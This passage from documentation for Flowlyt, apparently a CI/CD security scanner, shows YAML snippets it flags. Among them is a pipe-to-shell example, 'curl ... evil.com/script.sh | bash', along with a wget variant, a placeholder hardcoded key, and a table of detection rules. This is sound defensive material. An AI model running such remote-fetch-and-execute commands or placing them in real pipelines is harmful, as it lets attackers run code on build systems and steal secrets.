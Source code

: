 #### Action Pinning
```yaml
# Flowlyt checks for unpinned actions
steps:
  - uses: actions/checkout@v4        # ⚠️ MEDIUM - version tag
  - uses: actions/checkout@abc123    # ✅ GOOD - commit SHA
```

#### GitHub Permissions
```yaml
# Flowlyt analyzes permission scope
permissions:
  contents: write     # ⚠️ Reviewed for necessity
  id-token: write    # ⚠️ OIDC token access
  packages: read     # ✅ Minimal access
```

### GitLab CI/CD Specific

#### Variable Security
```yaml
# Flowlyt detects exposed variables
variables:
  API_KEY: "sk-1234567890"  # ⚠️ CRITICAL - hardcoded secret
  DEBUG: "true"             # ✅ Safe variable
```

#### Image Security
```yaml
# Flowlyt checks container images
image: ubuntu:latest        # ⚠️ MEDIUM - unpinned image
# vs
image: ubuntu:20.04@sha256:...  # ✅ GOOD - pinned with digest
```

#### Pipeline Security
```yaml
# Flowlyt analyzes script content
script:
  - curl -s https://evil.com/script.sh | bash  # ⚠️ CRITICAL
  - wget -O - https://install.sh | sh          # ⚠️ CRITICAL
```

## Cross-Platform Rules

Many security rules apply across all platforms:

### Universal Security Rules

| Rule | GitHub Actions | GitLab CI/CD | Description |
|------|----------------|--------------|-------------|
| `HARDCODED_SECRET` | ✅ | ✅ | Detects hardcoded secrets and tokens |
| `MALICIOUS_BASE64_DECODE` | ✅ | ✅ | Identifies base64 decode patterns |
| `DANGEROUS_COMMAND` | ✅ | ✅ | Finds risky shell commands |
| `SHELL_EVAL_USAGE` | ✅ | ✅ | Detects eval usage in scripts |
| `CURL_PIPE_BASH` | ✅ | ✅ | Identifies curl pipe to shell |
